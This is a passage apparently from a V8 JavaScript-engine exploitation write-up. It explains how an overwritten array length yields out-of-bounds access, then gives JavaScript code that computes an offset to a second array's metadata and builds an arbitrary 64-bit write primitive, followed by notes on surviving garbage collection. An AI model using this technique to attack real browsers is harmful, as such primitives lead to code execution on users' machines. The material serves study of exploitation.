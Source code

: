 Once the length of the array is overwritten, out-of-bounds (OOB) read/write becomes possible. 

This is because overwriting the length doesn’t immediately change the array, but it allows us to insert values at any index. 

Therefore, we create another array, let rwarr = [1.1, 2.2, 2.2], and by finding the offset from the start of the a array to the metadata of the rwarr array, we can overwrite it with the desired value. 

The corresponding code is as follows:

```jsx
//code for considering only the case : addr_rwarr > addr_a
if (addr_rwarr < addr_a) {
        console.error("Failed");
}

//calc offset
let offset = (addr_rwarr - addr_a) + 0xc;
if ( (offset % 8) != 0 ) {
        offset += 4;
}

offset = offset / 8;
offset += 1; //our a array has one of 1.1
offset -= 1;

let marker42_idx = offset;

console.log(marker42_idx);

//declare and assign
let b64 = new BigUint64Array(buffer);
let zero = 0n;

//write primitive
function v8h_write64(where, what) {
        b64[0] = zero;
        f64[0] = a[marker42_idx];
        if (u32[1] == 0x6) {
                u32[0] = where-8;
                a[marker42_idx] = f64[0];
        }
        else {
                u32[1] = where-8;
                a[marker42_idx] = f64[0];
        }
        rwarr[0] = what;
}
```


#### GC Resistance
While executing our JavaScript code, if the Young Space becomes full, Garbage Collection may be triggered. When that happens, the positions of the objects may change, causing the primitives we created using offsets to stop working. To prevent this, we implement primitives that persist even after Garbage Collection by creating three new objects and linking them together.
